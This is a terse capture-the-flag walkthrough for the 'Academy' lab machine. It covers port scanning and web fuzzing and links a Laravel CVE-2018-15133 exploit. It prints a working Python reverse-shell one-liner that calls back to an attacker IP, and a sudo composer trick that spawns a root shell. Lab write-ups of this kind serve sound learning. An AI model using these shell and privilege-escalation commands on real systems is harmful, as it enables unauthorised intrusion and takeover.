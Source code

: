 Academy
==========================================
Enumeration
--------------
Let's start with scanning open ports using Nmap
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG)
We can see three open ports with SSH, HTTP and Mysqlx services </br>
We need to add academy.htb in /etc/host and then we can explore the web page.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404

<https://github.com/aljavier/exploit_laravel_cve-2018-15133>

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x

